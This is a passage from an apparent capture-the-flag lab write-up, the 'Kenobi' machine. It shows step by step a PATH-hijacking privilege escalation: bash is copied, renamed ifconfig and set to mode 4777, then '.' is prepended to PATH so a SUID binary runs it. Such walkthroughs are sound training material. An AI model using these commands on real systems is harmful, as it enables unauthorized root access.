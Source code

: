 ```console
          TX packets:218 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:16277 (16.2 KB)  TX bytes:16277 (16.2 KB)
```

We can see when we run strings on the binary, that the actual commands that are being run are listed there. You'll also notice that they're not being called with absolute paths, so it might be possible to trick this binary into running something of our choosing. 

To do this, I'm going to copy `/bin/bash` to my home directory, and then modify my `PATH` environment variable to tell the system to essentially "Look for everything HERE first...". 

First, copy the `/bin/bash` binary to the home directory. 

```console
kenobi@kenobi:~$ cp /bin/bash .
```

Then, we can confirm that the `bash` binary is present in the home directory now.

```console
kenobi@kenobi:~$ ls -la
total 1056
drwxr-xr-x 5 kenobi kenobi    4096 Jun  7 13:55 .
drwxr-xr-x 3 root   root      4096 Sep  4  2019 ..
-rwxr-xr-x 1 kenobi kenobi 1037528 Jun  7 13:55 bash
lrwxrwxrwx 1 root   root         9 Sep  4  2019 .bash_history -> /dev/null
-rw-r--r-- 1 kenobi kenobi     220 Sep  4  2019 .bash_logout
-rw-r--r-- 1 kenobi kenobi    3771 Sep  4  2019 .bashrc
drwx------ 2 kenobi kenobi    4096 Sep  4  2019 .cache
-rw-r--r-- 1 kenobi kenobi     655 Sep  4  2019 .profile
drwxr-xr-x 2 kenobi kenobi    4096 Sep  4  2019 share
drwx------ 2 kenobi kenobi    4096 Sep  4  2019 .ssh
-rw-rw-r-- 1 kenobi kenobi      33 Sep  4  2019 user.txt
-rw------- 1 kenobi kenobi     642 Sep  4  2019 .viminfo
```

Since we're attempting to trick the application into running our binary instead of the one it's supposed to run, we need to change the name of the `bash` binary to `ifconfig`

```console
kenobi@kenobi:~$ mv bash ifconfig
```

We also need to set the permissions on the copied `bash` binary to make sure that it doesn't drop privileges. 

```console
$ chmod 4777 ifconfig
```

Once we've done that, we can add the current working directory (`/home/kenobi` in my case) to the `PATH` environment variable. 

```console
kenobi@kenobi:~$ export PATH=.:$PATH
```
